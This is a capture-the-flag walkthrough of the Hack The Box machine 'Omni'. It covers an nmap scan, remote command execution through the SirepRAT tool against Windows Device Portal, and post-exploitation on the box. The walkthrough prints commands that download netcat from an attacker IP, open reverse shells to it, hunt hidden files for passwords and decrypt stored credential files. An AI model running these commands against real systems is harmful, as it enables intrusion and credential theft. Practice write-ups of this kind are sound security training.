

# Omni



nmap
-----
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 18:48 GMT
Nmap scan report for 10.10.10.204
Host is up (0.044s latency).
Not shown: 65529 filtered ports
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.91%I=7%D=1/7%Time=5FF757C1%P=x86_64-pc-linux-gnu%r(NU
SF:LL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,"\
SF:*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x04
SF:G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc
SF:9}\xc8O\x12");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (86%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   45.98 ms 10.10.14.1
2   46.11 ms 10.10.10.204
```


website on 8080
-----


Exploit for windows device portal  
https://github.com/SafeBreach-Labs/SirepRAT

nc64.exe  
https://eternallybored.org/misc/netcat/

Upload nc64.exe
```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd 'C:\Windows\System32\cmd.exe' --args '/c powershell Invoke-WebRequest -Uri "http://10.10.14.17:8000/nc64.exe" -OutFile "C:\Windows\System32\nc.exe"'
```
Listen with NetCat
```
nc -nlvp 4444
```
Reverse shell
```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd 'C:\Windows\System32\cmd.exe' --args '/c nc.exe 10.10.14.17 4444 -e cmd.exe'
```

whoami -> $env:UserName
```
PS C:\Data\Users\app> $env:UserName
$env:UserName
omni$
```

We need the app and administrator users
```

d-----         7/4/2020   9:48 PM                administrator                 
d-----         7/4/2020   9:53 PM                app                           
d-----         7/3/2020  11:22 PM                DefaultAccount                
d-----         7/3/2020  11:22 PM                DevToolsUser                  
d-r---         1/7/2021   7:46 AM                Public                        
d-----         7/4/2020  10:29 PM                System  
```

List all Drives
```
gdr -PSProvider 'FileSystem'

Name           Used (GB)     Free (GB) Provider      Root                      
----           ---------     --------- --------      ----                      
C                   1.04          0.54 FileSystem    C:\                       
D                                      FileSystem    D:\                       
U                   0.51          4.37 FileSystem    U:\  
```

Looking for credentials in hidden files
```
PS C:\Program Files> Get-ChildItem -Hidden -Recurse -File
Get-ChildItem -Hidden -Recurse -File


	Directory: C:\Program Files\WindowsPowerShell\Modules\PackageManagement


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a-h--        8/21/2020  12:56 PM            247 r.bat
```

r.bat
```
PS C:\Program Files\WindowsPowerShell\Modules\PackageManagement> cat r.bat
cat r.bat
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
```

We can log in with the following credentials.  
app:mesh5143 app user

Processes -> Run command
```
C:\Windows\System32\nc.exe 10.10.14.17 4445 -e cmd.exe
```


```
PS C:\windows\system32> $env:UserName
$env:UserName
app
```

user.txt is a PSCredential file. We can load it and read the flag with the following command.

```
$credential = Import-CliXml -Path C:\Data\Users\app\user.txt
$credential.GetNetworkCredential().Password
```

We can do the same with the root user using the credential obtained for root (administrator:_1nt3rn37ofTh1nGz)